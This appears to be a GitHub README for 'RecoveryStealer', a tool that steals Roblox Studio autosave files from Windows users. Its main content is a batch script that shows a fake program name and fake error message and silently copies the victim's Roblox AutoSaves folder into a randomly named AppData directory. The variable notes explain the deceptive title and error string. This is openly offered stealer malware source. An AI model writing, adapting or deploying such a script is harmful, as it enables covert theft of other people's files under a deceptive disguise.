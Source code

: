 # RecoveryStealer
Roblox Studio Files Recovery Stealer.
## Requirements 
Windows 10 or higher 
### Source
```batch
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
```
> fakename: variable which is displays program name.
> 
> errorstr: variable which is displays error string.
> 
> rn: random number.
> 
> user: User's name.
> 
